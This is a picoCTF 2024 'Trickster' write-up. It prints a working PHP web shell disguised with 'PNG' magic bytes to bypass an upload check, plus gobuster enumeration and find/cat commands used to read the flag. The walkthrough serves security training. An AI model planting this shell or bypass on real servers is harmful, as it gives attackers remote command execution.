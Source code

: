 
# picoCTF 2024: Trickster
---
Tags: Web Exploration, browser_webshell_solvable

![](img/question.png)

### Description
I found a web app that can help process images: PNG images only!

---
From the challenge link, we are directed to an image upload features website
![](img/webview.png)

---
Here, we are using "Gobuster-tool" to peform **URLs and DNS brute force attack** for extracting directories and files form inside URLs and sub-domains.   
![](img/cmdline1.png)
```
gobuster dir -u http://atlas.picoctf.net:58140 -w /usr/share/wordlists/dirb/common.txt
```

gobuster *dir* *-\<options(target_url)>* *\<url>* -*\<options(wordlist_path)>* *\<path>*  
![](img/gobustercmd.png)

We head to /robots.txt and it leads me to /instructions.txt  
![](img/robottxt.png)  
The /instructions.txt  
![](img/instructiontxt.png)  
- From /instructions.txt, we know that the file we upload needs to have .png extension and the first few bytes contain 'PNG' magic bytes in hexadecimal "50 4E 47"
- From gobuster promts, we could guess that file uploaded will be saved at /uploads folder
- By knowing these informations, we can download web shell from [easy-simple-php-webshell.php](https://gist.github.com/joswr1ght/22f40787de19d80d110b37fb79ac3985)
- The php webshell generate a CLI for us to execute commands on the server remotely.
- Ensure that the server do checks the first few characters to be "PNG", so we must put them at the beginning of the code:
```
PNG
<html>
<body>
<form method="GET" name="<?php echo basename($_SERVER['PHP_SELF']); ?>">
<input type="TEXT" name="cmd" autofocus id="cmd" size="80">
<input type="SUBMIT" value="Execute">
</form>
<pre>
<?php
    if(isset($_GET['cmd']))
    {
        system($_GET['cmd'] . ' 2>&1');
    }
?>
</pre>
</body>
</html>
```

---
And so I uploaded the phpWebshell.png.php file  
![](img/phpWebshell.png)  
The file is successfully checked, and server tells us "We shall process it"
From the guess previously, we know that the webshell file might now be stored at  /uploads directory.

We try to access the uploaded webshell file  
![](img/uploadfolder.png)  
Starting off here, we can search the flag in the system however we want, using the webshell injected, we can use the command:
```
find / -name "*.txt"
```
to search the root folder, with files that end with ".txt" extension at the server side  
![](img/findName.png)  
Click on "Execute"  

![](img/flagText.png)  
We found the text file, try to *concatenate* it
```
cat /var/www/html/GQ4DOOBVMMYGK.txt
```
![](img/concatenate.png)  
Click on "Execute"  

![](img/flag.png)  
The flag has been found!

### Mind Map  
![](img/mindMap.png)  
